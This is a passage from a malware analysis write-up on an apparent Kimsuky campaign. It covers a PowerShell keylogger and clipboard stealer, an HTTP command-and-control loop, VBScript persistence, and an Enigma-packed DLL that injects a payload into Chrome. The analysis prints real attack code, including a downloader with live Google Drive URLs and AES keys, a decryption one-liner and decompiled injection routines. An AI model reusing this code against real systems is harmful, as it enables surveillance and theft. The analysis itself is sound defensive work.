- **Stealth and Reliability:** A small delay (Start-Sleep -Milliseconds 100) is inserted between chunks to prevent flooding the network. Crucially, the function includes extensive error handling, immediately deleting the temporary encrypted file regardless of success or failure and stopping the transfer if a non-200 HTTP status code is received.
#### PowerShell execution Stage 6
The Stage5.ps1 script execute 1.ps1 script with 2.log
```powershell
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -File $localPath\pipe\1.ps1 -FileName $localPath\pipe\2.log" -NoNewWindow
```
As we already analyzed the 1.ps1 we know it decode the base64 and execute it using iex.


After decoding 2.log file the base64 we can clearly see the another PowerShell script.
For for further analyze i am naming the new PowerShell script into Stage5_1.ps1
##### Surveillance Module (Keylog Function)
The Keylog function is the espionage module, implementing a high-fidelity **Keylogger and Clipboard Stealer** designed to run continuously in the background and monitor all user input. This module operates by directly leveraging the Windows API via **P/Invoke** (Platform Invoke) within PowerShell, a technique used by advanced attackers to access low-level operating system functions.
###### 1. API Registration and Setup
The function begins by importing necessary functions from the native Windows user32.dll library to enable low-level hardware monitoring:
```powershell
$signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
public static extern short GetAsyncKeyState(int virtualKeyCode);
...
[DllImport("user32.dll")]
public static extern IntPtr GetForegroundWindow();
'@
$API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
```
The most crucial API, GetAsyncKeyState, is used to check the state of every key, and GetForegroundWindow is used to capture the context of the active application. All collected data is buffered and written to the log file **$storePath\k.log**, which is exfiltrated by the C2 loop.
###### 2. Clipboard Monitoring
The keylogger loop executes every 20 milliseconds, checking for and logging high-value copied data:
```powershell
Start-Sleep -Milliseconds 20
$clipb = Get-Clipboard -Raw
if($clipb -ne $oldclipb) {
    $content = "<<" + $clipb + ">>"
    $strbuf += $content
    $oldclipb = $clipb
}
```
The script uses the native PowerShell cmdlet Get-Clipboard -Raw to retrieve copied content. If the clipboard has changed, the data is immediately logged, wrapped in angle brackets (<<...>>) to clearly mark high-value pasted information for the attacker.
###### 3. Keystroke and Context Capture
The core keylogging logic iterates through all possible key codes (8 to 254) and checks their state:

```powershell
for ($ascii = 8; $ascii -le 254; $ascii++) {
    $state = $API::GetAsyncKeyState($ascii)
    if ($state -eq -32767) {
        # Log Window Title Change
        ...
        # Convert Key Code to Character (using ToUnicode API)
        ...
        $strbuf += $key
    }
}
```
- **Context Logging:** Before logging any keystroke, the script checks if the active window title has changed ($wintitle -ne $oldwintitle). This ensures the log provides the critical context (e.g., "Typing into: Chrome") necessary for the attacker to link keystrokes to specific login forms or documents.
- **Key Conversion:** The use of MapVirtualKey and ToUnicode is essential for accurately converting the raw key-press state into the final typed character, correctly handling shift states, caps lock, and localized keyboard layouts.
###### 4. Data Buffering and Exfiltration Readiness
The function ensures data collection is robust by using a **buffer ($strbuf)** that writes to the persistent log file only once every 60 seconds. This minimizes disk write operations, improving stealth, and preparing the k.log file for the large-chunk, 10-minute exfiltration interval defined in the C2 Work function. This final module confirms the Kimsuky malware is a comprehensive, persistent, and highly effective espionage tool.
#### Work
The Work function represents the malware's continuous, long-term C2 mechanism. It runs in an infinite loop (while($true)), operating as a fully functional Remote Access Trojan (RAT).
##### 1. Beaconing and Default Upload
- The loop begins with a 10-minute sleep (Start-Sleep -Seconds 600), establishing a predictable, low-frequency **beacon** interval.
- Every 10 minutes, the malware uploads a file ($storePath\k.log) to the C2 server using the UploadFile function. This file is likely a new log of processes or a simple heartbeat to confirm the implant is still active.
##### 2. C2 Command and Control Protocol (HTTP Polling)
The function implements a standard HTTP polling mechanism to receive commands from the C2 server by querying specific URL paths named after its target action. The C2 server uses the unique victim ID ($id) to serve tailored commands.

| C2 URL Path | Action                     | Analysis                                                                                                                                                                                                                                                                     |
| ----------- | -------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /$id/appkey | **GetAppKey**              | The most critical action. It checks if the server has posted a request for a new high-privilege payload acquisition (detailed below).                                                                                                                                        |
| /$id/rd     | **Remote Read (Download)** | Downloads a list of files to exfiltrate. The list contains files (e.g., those from the CreateFileList search) with their destination names. The script executes the **UploadFile** function for each file in the list, allowing the attacker to selectively steal documents. |
| /$id/wr     | **Remote Write (Upload)**  | Downloads and writes a new file to the victim's machine. The list contains the remote C2 URL and the desired local path. This allows the attacker to download and install new tools or payloads.                                                                             |
| /$id/cm     | **Remote Command**         | Downloads a raw PowerShell command string from the C2 server and executes it directly via **Invoke-Expression** (Invoke-Expression $content). This grants the attacker full, real-time command-line control over the compromised host.                                       |
In all cases, after a command is processed, the script sends a **del=...** parameter back to the C2 server. This tells the server to delete the command file, ensuring the command is only run once.
#### GetAppKey 
The GetAppKey function is a dedicated module for acquiring a highly valuable, Stage7 payload that requires a complex, multi-step installation. The function uses the same AES keys as the Stage 1 loader.
1. **Component Download:** The script downloads two files from hardcoded **Google Drive URLs**:
    - $loader (encrypted): Downloaded as `appload.log`
    - $dll: Downloaded as nzvwan.log
2. **Loader Decryption:** It uses the exact same PowerShell AES decryption logic as the initial stages to decrypt appload.log into **app64.dll**.
3. **Execution and Injection:** The malware executes the decrypted loader DLL via a **rundll32.exe** call: rundll32.exe "$tempPath\app64.dll,c" -Wait.
4. **Data Exfiltration:** After execution, the script waits, then uploads a file named **cc_appkey** from the temporary directory. This file is the resulting output of the executed DLL.
5. **Clean-up:** As always, the function performs an immediate and thorough clean-up, deleting all three component files (cc_appkey, app64.dll, nzvwan.log, appload.log) after the upload is confirmed.
The analyze of dll will covered in Stage6.
#### Persistence Implementation 1.vbs
While the exact persistence method (e.g., Registry Run Key, Scheduled Task) is implied in the function RegistryTask, the core payload used for re-launching the infection is definitively identified in the VBScript file, likely named 1.vbs.
##### VBScript Runner Obfuscation
The VBScript component, which is assumed to be launched by the persistence mechanism, uses the familiar character-by-character construction method to hide its command:

```vbscript
Dim ss
Set oShell = CreateObject ("WScript.shell")

ss = chr(-52713+CLng("&Hce4c"))
ss = ss & chr(8254461/CLng("&H127d1"))
ss = ss & chr(7329600/CLng("&H11e50"))
ss = ss & chr(CLng("&H13e25")-81413)
ss = ss & chr(920119/CLng("&H4c79"))
ss = ss & chr(8597655/CLng("&H1533d"))
--------snip---------
ss = ss & chr(-32219+CLng("&H7e09"))
ss = ss & chr(-76561+CLng("&H12b7d"))
ss = ss & chr(-56228+CLng("&Hdc13"))
ss = ss & chr(4145235/CLng("&H9d35"))

oShell.Run ss, 0, False

```
This arithmetic obfuscation, a trademark of the initial stages, successfully hides the final command string from simple static analysis tools.

By running the VBScript after commenting out the executing and using Wscript.Echo, the resolved command is
```powershell

cscript.exe .\stage3\1.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

cmd /c cd /d %localappdata%\pipe && powershell -ExecutionPolicy Bypass -WindowsStyle Hidden -NoProfile -File 1.ps1 -FileName 1.log
```
This persistence runner ensures that even if the user reboots the system or security tools terminate the active processes, the malware successfully re-establishes the core C2 connection and surveillance modules, making the compromise effectively permanent until the persistence mechanism itself is located and removed.
## Stage 6 app64.dll
When the GetAppKey function is executed it download 2 .log files form the google drive.
```powershell
-------snip-------
function GetAppKey {
	# $randomNumber = Get-Random
	$loader = "https://drive.google.com/uc?export=download`&id=15Xkvt3TwCQJERcUHSUandCigMVVxsFqr"
	$dll = "https://drive.google.com/uc?export=download`&id=1EkyeoSdhvGqcEpZkqBUzXnJYPLka7zJc"

	DownloadFile $loader "$tempPath\appload.log"
	# $base64String = Get-Content "$tempPath\appload.log" -Raw
	# [System.IO.File]::WriteAllBytes("$tempPath\app64.dll", [System.Convert]::FromBase64String($base64String))

	[System.IO.File]::WriteAllBytes("$tempPath\app64.dll", (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes("$tempPath\appload.log"), 0, [System.IO.File]::ReadAllBytes("$tempPath\appload.log").Length))

	DownloadFile $dll "$localPath\nzvwan.log"
	Start-Sleep -Seconds 1

	# Start-Process -FilePath "$tempPath\app64.exe"
	Start-Process "rundll32.exe" -ArgumentList ".\app64.dll,c" -Wait

	Start-Sleep -Seconds 1
	$url = $serverurl + "?id=$id"
	$result = UploadFile $url "$tempPath\cc_appkey"
	Start-Sleep -Seconds 1
	if ($result -eq $true) {
		Remove-Item -Path "$tempPath\cc_appkey"
		Remove-Item -Path "$tempPath\app64.dll"
		Remove-Item -Path "$localPath\nzvwan.log"
		Remove-Item -Path "$tempPath\appload.log"
	}
}
-------snip-------
```
appload.log is AES encrypted file.
```powershell
dir

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     01:26         276496 nzvwan.log
-a----        04-12-2025     01:26        1520144 appload.log

Get-FileHash .\appload.log

Algorithm       Hash
---------       ----
SHA256          FA65136F28DFE55998715CE82089AC21FE25FBA499BF607B45C7599E62C9A857

Get-FileHash .\nzvman.log

Algorithm       Hash 
---------       ----
SHA256          181884C418D559FC9B4FA4BB98375851DD41277DBC88C8B16A1B3A5F4D9C4C80

```
```powershell
powershell.exe -ep bypass -Command "[System.IO.File]::WriteAllBytes('app64.dll', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('appload.log'), 0, [System.IO.File]::ReadAllBytes('appload.log').Length))"
```
### 6.1 File Identification and Metadata

The initial phase of analysis involved cataloging the binary's metadata to establish a unique fingerprint and determine the build context. The file was identified as app64.dll, a 64-bit Dynamic Link Library.

```powershell
dir .\app64.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:59        1520128 app64.dll

Get-FileHash .\app64.dll

Algorithm       Hash
---------       ----
SHA256          25E00987D62B5A88B54419BD4756B1E517B172E3AF18185325D05B37F6451593
```

Based on the static artifacts, the file attributes are as follows:
- **File Name:** app64.dll
- **File Size:** 1.45 MiB (1,520,128 bytes)
- **Compilation Timestamp:** 2025-11-27 09:55:07 (UTC)

| Algorithm   | Hash                                                             |
| ----------- | ---------------------------------------------------------------- |
| **MD5**     | 7daa01705af0ce487e6b5f41c50e521a                                 |
| **SHA-1**   | 956aee5ff04cdf69c0206a3944760d0bca355d1f                         |
| **SHA-256** | 25e00987d62b5a88b54419bd4756b1e517b172e3af18185325d05b37f6451593 |
- **Temporal Relevance:** The compilation timestamp is **November 27, 2025**. Given the current analysis date (December 4, 2025), this binary was compiled approximately one week ago. This indicates the sample is part of a **live and active campaign**, rather than a historical artifact or a recycled binary from previous years.
- **File Size:** The size (1.45 MiB) is relatively large for a standard utility DLL. This often suggests the presence of statically linked libraries (such as OpenSSL) or, more likely in a malware context, a packed payload or embedded resources hidden within the file structure.

#### 1. Packing and Obfuscation

During the initial inspection, **Detect It Easy (DIE)** identified the presence of a commercial packer. Further string analysis confirms that the binary is protected using **The Enigma Protector**.

Basic static string analysis revealed specific artifacts left by the packing software. The presence of the "Unregistered" tag indicates the threat actor likely used a cracked or trial version of the protection software, a common trait in campaigns where actors seek to minimize their digital footprint or financial trail.
```
ENIGMA
The Enigma Protector version 1.31
Developer: Vladimir Sukhov
Site : http://www.enigmaprotector.com/
E-mail : support@enigmaprotector.com
Unregistered signature
This program protected with UNREGISTRED VERSION of The Enigma Protector
```
#### 2. Section Analysis (Binary Ninja)

Examining the PE sections in **Binary Ninja** reveals non-standard naming conventions and suspicious memory permissions that corroborate the presence of the Enigma packer.



1. **Non-Standard Naming:** Instead of standard PE sections like .text, .data, or .rdata, the binary contains numerical sections: `_2, _3, _4, _5, _6, _7, _8`.  (Binary Ninja)
2. **RWX Permissions:** As seen in Figure 2, almost all sections (including the resources .rsrc and the numerical sections) are marked as **RWX (Read, Write, Execute)**.
    - **Security Implication:** Standard security practices (DEP/NX) prevent sections from being both Writable and Executable simultaneously. RWX sections allow the malware to decrypt code and write it into these sections, then immediately execute it. This is required for the packer's unpacking stub to function.
#### 3. Import and Export Analysis

Despite the packing, the Import Address Table (IAT) and Export Table provide limited but critical insights into the malware's capabilities.
#### Exports
The binary exports a single function:
- **Name:** **c**
- **Address:** 0x180001470

The use of the single-letter export **c** serves as a minimal obfuscation technique. It allows the loader (PowerShell or rundll32) to target a specific entry point (app64.dll,c) while keeping the function name ambiguous to human analysts.
#### Imports
The visible imports in Binary Ninja (Figure 24) are likely those used by the **Enigma Loader stub**, rather than the final payload. However, they indicate the loader's behavior:
- **Dynamic Resolution:** `LoadLibraryA`, `GetProcAddress`, `GetModuleHandleA` (`Kernel32`).
    - Purpose: These APIs allow the malware to resolve other APIs manually at runtime, hiding its true capabilities from static analysis tools.
- **Execution:** `ShellExecuteA` (`Shell32`).
    - Purpose: Used to execute external programs or open files. This suggests the DLL might drop a secondary file and execute it, or open a decoy document.
- **Registry/System:** `RegCloseKey` (`Advapi32`).
    - Purpose: Indicates interaction with the Windows Registry, likely for persistence or configuration checks.
### 6.2. Code Analysis & Unpacking
#### 6.2.1 The Enigma Bootstrap Stub (`_start`)
The function at `0x1806013e4` (`_start`) is the **Enigma Protector Bootstrap**. Commercial packers often use a small, simple stub at the Entry Point to hide their main protection logic.
```c
1806013e4    int64_t _start(int64_t arg1, int64_t arg2)

1806013e6        int64_t var_18 = arg2
1806013fb        bool c
1806013fb        bool p
1806013fb        bool a
1806013fb        bool z
1806013fb        bool s
1806013fb        bool d
1806013fb        bool o
1806013fb        int64_t var_80 = (o ? 1 : 0) << 0xb | (d ? 1 : 0) << 0xa | (s ? 1 : 0) << 7
1806013fb            | (z ? 1 : 0) << 6 | (a ? 1 : 0) << 4 | (p ? 1 : 0) << 2 | (c ? 1 : 0)
1806013fb        
180601473        if (arg2.d != 1)
18060149f            return 0
18060149f        
1806014bb        void* rax_1 = &data_1806014e3
1806014c2        int64_t i_1 = 0x64a
1806014d8        int64_t i
1806014d8        
1806014d8        do
1806014d0            *rax_1 ^= 0xa1
1806014d2            rax_1 += 1
1806014d5            i = i_1
1806014d5            i_1 -= 1
1806014d8        while (i != 1)
❓1806014e7        jump(0x1a88a5d14)
```

**Code Logic:**
1. **Preparation:** It sets a pointer rax_1 to `0x1806014e3` (a data blob inside the PE section).
2. **Decryption Loop:**
    - It iterates 1610 times (0x64a).
    - It performs a **XOR 0xA1** operation on the bytes at that location.
3. **Handover:**
    - jump(`0x1a88a5d14`): Once the blob is decrypted, it jumps to it. This blob is the **Enigma Protection Engine**.  
If we write a script to decrypt this XOR blob, we will simply get **more Enigma code** (virtualized and obfuscated), not the final malware. The malware is still compressed and encrypted deeper within the file.
#### 6.2.2 Debugger Configuration (x64dbg)
Given the complexity of the Enigma Protector and the encrypted stub identified in the static analysis, we proceeded with dynamic unpacking to extract the payload from memory. We utilized **x64dbg** to control the execution flow.

Since app64.dll is a Dynamic Link Library, it cannot be executed directly. We configured the debugger to use the Windows host process rundll32.exe to load the malicious module.

**Steps taken:**
1. **Launch x64dbg:** We opened the x64 version of the debugger (as the target is PE64).
2. **Select Host Process:** We navigated to File -> Open and selected the standard Windows utility:  
    `C:\Windows\System32\rundll32.exe`
3. **Configure Command Line:**  
    To simulate the execution flow observed in the initial assessment, we modified the command line arguments passed to rundll32.exe. This ensures the DLL is loaded and the specific exported function c is called.
```
"C:\Windows\System32\rundll32.exe" "C:\Users\Profzzor\Desktop\Kimsuky\dll\app64.dll",c
```
Note: The `,c` appended to the DLL path instructs rundll32 to execute the exported function named c, which is the entry point for the malicious logic.
#### 6.2.3 Initial Execution & Stub Decryption
To ensure we captured the execution flow from the very first instruction of the malicious DLL, we configured the debugger preferences to **"Break on User DLL Entry"**.



**Entry Point Hit:** Upon execution, the debugger successfully suspended the process at the Entry Point of app64.dll.

Continuing from our static analysis findings, we located the XOR decryption loop immediately following the entry checks. We stepped through this routine to observe the unpacking behavior.
- **The Loop:** The code executes a loop (seen at address offset ...14C9 in Figure 28) that applies an **XOR 0xA1** operation to a memory block.
- **The Jump:** Immediately after the loop counter reaches zero, the code encounters a JMP instruction (Address ...14DE).



#### 6.2.4 Bypassing the Enigma Engine (Memory Trap Strategy)

The Enigma Engine code is highly obfuscated, employing virtualization and anti-debugging checks (timing, hardware breakpoints) to hinder analysis. Attempting to step-trace this engine is inefficient. Instead, we relied on the behavioral necessity of the packer: it must eventually write the original malicious code into memory and execute it.

Crucially, before the packer can execute the decrypted payload, it must change the memory permissions of the target section from "Read/Write" to "Execute". This is typically achieved via the VirtualProtect API.

1. **Breakpoint Configuration:** We issued the command `bp VirtualProtect` in the x64dbg command bar to intercept calls to this API.
2. **Execution and Monitoring:** We resumed execution (**F9**), ignoring calls targeting small memory regions. We monitored the registers for the following specific criteria:
    - **RCX (Address):** Points to the main code section of the DLL (Section 0 / .text).
    - **R8 (NewFlags):** Requests executable privileges (0x20 or 0x40).


Memory Map of the loaded DLL.



The debugger eventually suspended execution at a call to VirtualProtect matching our criteria.
- **Target Address (RCX):** Pointed to the DLL's internal code section.
- **Protection Flag (R8):** The register contained the value **0x20** (PAGE_EXECUTE_READ).

This confirmed that the Enigma engine had finished decrypting the payload and was preparing to mark it as executable code.
#### 6.2.5 OEP Identification and Payload Extraction

With the transition to executable code imminent, we performed the final steps to trap the Original Entry Point (OEP).

1. **Completing the API Call:** We executed the VirtualProtect function to completion (`Execute till Return`), allowing the permissions change to take effect.
2. **Execution Trap:** We placed a **Memory Breakpoint on Execution (Singleshoot)** on the now-executable code section.


3. **Triggering the OEP:** Upon resuming execution, the Enigma stub immediately jumped to the decrypted section, triggering our breakpoint.



Immediately after resuming execution, the memory breakpoint triggered, halting the debugger at address 00007FF8D5712C8C.

The status bar (bottom left) confirms the Relative Virtual Address (RVA) is **0x2C8C**. The assembly code at this location displays a standard function prologue (mov qword ptr..., push rdi, sub rsp), contrasting sharply with the obfuscated code seen earlier. This confirms we have successfully reached the clean, unpacked Kimsuky malware entry point, ready for dumping.



With the process suspended at the OEP, we initiated the dumping procedure using the **Scylla** plugin. To ensure we dumped the correct memory region, we performed the following configuration steps:

1. **Launch Plugin:** We opened Scylla from the x64dbg toolbar.
2. **Select Module:** We clicked the **'Pick DLL'** button. This is necessary because the host process (rundll32.exe) has multiple libraries loaded in its address space.
3. **Target Identification:** From the list of loaded modules, we located and selected **app64.dll**. This ensures Scylla uses the correct Image Base (visible as 00007FF8D5710000) for IAT reconstruction.
4. **Confirmation:** We clicked **'OK'** to lock Scylla onto the malware's memory space, preparing it for the IAT search and payload dumping.


To correctly reconstruct the Import Address Table, we performed the following sequence in Scylla:
1. **OEP Correction:** We manually updated the **OEP** field to `00007FF8D5712C8C`. This value matches the exact address where the debugger suspended execution (as seen in the bottom status bar), ensuring Scylla scans from the correct starting point of the unpacked code.
2. **IAT Autosearch:** We clicked **'IAT Autosearch'** to locate the import table in memory.
3. **Conflict Resolution:** Scylla detected a discrepancy between its Normal and Advanced search algorithms (visible in the log as differing sizes: 0x0D70 vs 0x02D0). When prompted by the dialog box, we selected **'Yes'** to utilize the **Advanced Search** result.
4. **Retrieval:** Finally, we clicked **'Get Imports'** to parse the found table and populate the list of imported DLLs and functions.



After retrieving the imports, Scylla identified a total of **88 entries**, but flagged **13 as invalid** (indicated by the red 'X' icons and the bottom status bar).

These invalid entries are artifacts of the Enigma Protector's API redirection mechanism (thunks), where valid API calls are routed through the packer's allocated memory instead of pointing directly to system DLLs. To prevent errors during the rebuilding process and ensure the dumped file loads correctly in static analysis tools, we clicked **'Show Invalid'** to highlight these obfuscated entries and removed them using the **'Cut thunk'** command. This resulted in a clean IAT containing only the 75 verifiable system imports.
#### 6.2.6 Payload Dumping and Verification

With the Import Address Table sanitized, we proceeded to export the unpacked executable from memory to disk.
1. **Dump Memory:** We clicked the **"Dump"** button in Scylla and saved the raw memory artifact as app64_dump.dll.
2. **Rebuild PE Header:** Crucially, we selected the **"Fix Dump"** option and pointed it to the newly created file. This step uses Scylla's reconstructed IAT to patch the file's Import Directory, ensuring that standard analysis tools (IDA, Binary Ninja, debuggers) can correctly resolve the API calls.

**Post-Dump Verification:**  
A comparison of the file system attributes reveals a significant disparity between the original packed sample and the dumped payload.
```powershell
dir .\app64.dll

Directory: C:\Users\Profzzor\Desktop\Kimsuky\dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     15:59        1520128 app64.dll


dir .\app64_dump_SCY.dll

Directory: C:\Users\Profzzor\Desktop\Kimsuky\dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        05-12-2025     06:31        6271488 app64_dump_SCY.dll
```
The file size increased from approximately **1.45 MB** to **6.2 MB**. The dumped file represents the fully decompressed code and data sections as they exist in memory, aligned to memory page boundaries.

Note: Cryptographic hashes for memory dumps are not included, as they vary between debugging sessions due to dynamic base addresses and timestamps.

- **Entry Point Correction:** The Entry Point is now listed as **00007FF8D5712C8C** (RVA 0x2C8C). This matches the exact address found during our dynamic analysis, confirming the PE header now points correctly to the unpacked code logic.
- **Section Artifacts:** The scan still reports `"(Heur)Protection: Generic[Strange sections]" and "(Heur)Packer"`. This is expected, as Scylla preserves the non-standard section names (`_2, _3`) created by the Enigma Protector, even though the code inside them is now clean and executable.
### 6.3. Malware Functionality Analysis
#### 6.3.1 Initialization Routine (Export c)

The exported function c serves as the primary entry point for the malware's operation. Unlike the standard DLL entry point (which handles generic library initialization), this function contains the specific logic to prepare the victim's environment and launch the core payload.
1. **Path Resolution:**
    - The malware dynamically resolves the path to the user's Local AppData directory (%LOCALAPPDATA%) using the Windows API SHGetSpecialFolderPathA with the CSIDL value 0x1c.
2. **Artifact Creation:**
    - It constructs a full file path by appending the filename **\zvwan.log** to the retrieved directory.
    - **Indicator of Compromise (IOC):** The existence of nzvwan.log in the AppData folder is a high-confidence indicator of infection.
3. **Execution Handoff:**
    - The function invokes the core malicious subroutine (sub_11a0) to begin targeting operations.
```c
// Function: Export 'c' (0x7ff8d5711470)
int64_t c() {
    // [Stack Canary protection omitted for brevity]
    
    // Initialize buffers for path storage
    char var_128 = 0;
    sub_7ff8d5715ce0(&var_127, 0, 0x103); // memset

    // Resolve %LOCALAPPDATA%
    // 0x1c = CSIDL_LOCAL_APPDATA
    // This dynamically finds "C:\Users\<User>\AppData\Local"
    SHGetSpecialFolderPathA(hwnd: nullptr, &pszPath, csidl: 0x1c, fCreate: 0);

    // Construct the payload path
    // Format: "%LOCALAPPDATA%\zvwan.log"
    // Note: 'zvwan.log' is the encrypted payload file
    sub_7ff8d5711f80(&var_128, "%s\nzvwan.log", &pszPath); // sprintf

    // Execute the Main Reconnaissance Logic
    uint32_t rax_2 = sub_7ff8d57111a0(); 
    
    // [Error logging logic omitted]
    return ...;
}
```
#### 6.3.2 Target Reconnaissance (sub_7ff8d57111a0) 
The malware enters a loop to scan all running processes to identify a specific target.
1. **Process Enumeration:**
    - The malware uses CreateToolhelp32Snapshot with the flag TH32CS_SNAPPROCESS.
    - It iterates through every running process on the system using Process32First and Process32Next.

2. **Target Identification (chrome.exe):**
    - Inside the loop, it compares the name of every process (lppe.szExeFile) against the string **"chrome.exe"**.
    - This confirms the malware is specifically hunting for the **Google Chrome** browser, a common target for Kimsuky information stealers.
        
3. **Integrity Level Check (The Helper Function sub_...1090):**
    - If Chrome is found, the malware opens the process (OpenProcess) and retrieves its Security Token (OpenProcessToken).
    - It calls GetTokenInformation to query the **TokenIntegrityLevel**.
    - **The Check:** rbx - 0x2000 u<= 0xfff.
        - 0x2000 represents the **Medium Integrity Level**.
        - Chrome uses a "Sandbox" architecture where renderer processes run at Low Integrity or Untrusted levels, while the main browser process runs at Medium Integrity.
    - **Purpose:** The malware is verifying that it has found the **Main Chrome Process** (Medium Integrity) and not a sandboxed tab/renderer. This is a prerequisite for successful code injection or cookie theft.
```c
// Function: sub_7ff8d57111a0 (Target Scanning)
int64_t sub_7ff8d57111a0() {
    // Create a snapshot of all running processes
    hSnapshot = CreateToolhelp32Snapshot(dwFlags: TH32CS_SNAPPROCESS, 0);

    if (hSnapshot != -1) {
        if (Process32First(hSnapshot, &lppe) != 0) {
            do {
                // Check if the process name matches "chrome.exe"
                if (sub_7ff8d5711f78(&var_11c, "chrome.exe") == 0) {
                    
                    // Open the Chrome process to query information
                    HANDLE rax_5 = OpenProcess(PROCESS_QUERY_INFORMATION, 0, lppe.th32ProcessID);

                    if (rax_5 != 0) {
                        // Check Process Token Integrity
                        // sub_7ff8d5711090 verifies if the process is running at 
                        // Medium Integrity (Main Browser) vs Low Integrity (Sandbox)
                        if (sub_7ff8d5711090(rax_5) != 0) {
                            
                            // Target Found! Close handle and proceed to Injection Loader
                            data_7ff8d571f070(rax_5); // CloseHandle wrapper
                            break; 
                        }
                    }
                }
                // Continue to next process
            } while (Process32Next(hSnapshot, &lppe) != 0);
        }
    }
    return ...; 
}
```
#### 6.3.3 Payload Loading and Injection (sub_7ff8d57112b0)
Once the valid chrome.exe process is identified, this function prepares the system for code injection.
1. **Payload Retrieval:**
    - The function opens the file `nzvwan.log` in **Read-Binary mode ("rb")**.
    - This confirms that `nzvwan.log` is not a text log, but rather a binary container (Shellcode/DLL) holding the next stage of the malware.
    - It reads the entire content of this file into a memory buffer.
2. **RC4 Decryption (sub_7ff8d5711a10):**
    - The file does not contain a readable header or plaintext structure. Instead, the entire buffer is an encrypted payload.
    - Before initializing the RC4 state, the loader extracts the first 0x10 (16) bytes from the file. These bytes are treated as the dynamic RC4 key.
    - Key Scheduling Algorithm (KSA):
        The 16-byte key is expanded through a 256-iteration mixing loop, filling the 0x100-byte S-box. 
        Each iteration applies modular arithmetic and byte-swapping to produce a fully keyed RC4 state.
    - Pseudo-Random Generation Algorithm (PRGA):
        Once the S-box is initialized, the routine generates a stream of keystream bytes. 
        The encrypted payload (starting after the 0x10-byte key) is XOR’d with this stream, producing the decrypted output.
    - The decrypted data is expected to form a valid in-memory module (e.g., DLL or shellcode), which is then passed to the next stage for execution.

3. **Privilege Escalation:**
    - The malware calls LookupPrivilegeValueA requesting **"SeDebugPrivilege"**.
    - It then calls AdjustTokenPrivileges to enable this right. This is required to manipulate the memory of high-privilege processes like the main Chrome browser.

4. **Target Access:**
    - It opens the target Chrome process again, this time with extensive access rights: `0x43a`.
    - These flags correspond to PROCESS_CREATE_THREAD, PROCESS_VM_OPERATION, and PROCESS_VM_WRITE, granting full control to inject code.
```c
// Function: sub_7ff8d57112b0 (Loader & Injector Prep)
int64_t sub_7ff8d57112b0(char* arg1, uint32_t arg2) {
    
    // Open the payload file "zvwan.log" in Read-Binary mode ("rb")
    int64_t* rax_2 = sub_7ff8d5712268(arg1, "rb"); 
    
    if (rax_2 != 0) {
        // Read the file content into a memory buffer
        sub_7ff8d571255c(rax_5, 1, r12_1, rax_2); 

        // Escalate Privileges: Request "SeDebugPrivilege"
        LookupPrivilegeValueA(nullptr, "SeDebugPrivilege", ...);
        AdjustTokenPrivileges(TokenHandle, ...);

        // Open Chrome (arg2 = PID) with extensive rights (0x43a)
        HANDLE rax_10 = OpenProcess(dwDesiredAccess: 0x43a, 0, dwProcessId: arg2);

        if (rax_10 != 0) {
            // CALL INJECTION ROUTINE
            // Passes: Chrome Handle, Payload Buffer, Payload Size
            sub_7ff8d57118c0(rax_10, rsi_1, ...);
        }
    }
    return ...;
}
```
#### 6.3.4 Reflective Injection (sub_7ff8d57118c0)
The final stage executes the payload inside the Chrome process. The code analysis confirms the use of **Reflective DLL Injection**.
1. **Payload Parsing (Reflective Loader):**
    - The malware calls a helper function (sub_...15a0) to parse the Export Table of the payload currently in memory.
    - It specifically searches for an export named **"ReflectiveLoader"**. This is a signature of the "Reflective DLL Injection" technique, allowing a DLL to load itself from memory without being on disk.
2. **Memory Allocation:**
    - It uses VirtualAllocEx to allocate memory in the remote Chrome process with PAGE_EXECUTE_READWRITE protection.
3. **Execution:**
    - It calls CreateRemoteThread.
    - Crucially, the thread entry point is calculated as BaseAddress + ReflectiveLoader_Offset. This ensures the Reflective Loader runs first to bootstrap the malware.
```c
// Function: sub_7ff8d57118c0 (Reflective Injection Logic)
int64_t sub_7ff8d57118c0(HANDLE arg1, void* arg2, int32_t arg3) {

    // Helper function parses the payload's Export Table for "ReflectiveLoader"
    int32_t rax_1 = sub_7ff8d57115a0(arg2); 

    if (rax_1 != 0) {
        // 1. Allocate Memory in Chrome (RWX)
        int64_t lpBaseAddress = VirtualAllocEx(hProcess: arg1, lpAddress: nullptr, 
                                               dwSize: arg3, ...);

        // 2. Write the Payload (zvwan.log content) into Chrome
        if (lpBaseAddress != 0 && WriteProcessMemory(hProcess: arg1, lpBaseAddress, 
                                                     lpBuffer: arg2, ...) != 0) {
            
            // 3. Execute the Payload
            // Entry Point = Base Address + ReflectiveLoader Offset (rax_1)
            CreateRemoteThread(arg1, 0, 0, lpBaseAddress + rax_1, ...);
        }
    }
    return result;
}
```
# 3. Conclusion

The analysis of this Kimsuky campaign reveals a threat actor that is rapidly evolving its toolkit to maximize stealth and persistence. The use of a "decision tree" installation process—deploying different malware architectures based on the presence of security software—demonstrates a mature understanding of the defensive landscape.

Technically, the malware relies heavily on modularity. By splitting functionality across multiple encrypted stages (sys.dll, net.dll, notepad.dll, app64.dll), the attackers can update specific capabilities without pushing a new core implant. The heavy use of commercial packers (Themida, Enigma) and custom obfuscation (AES, RC4, XOR) complicates reverse engineering and static detection.

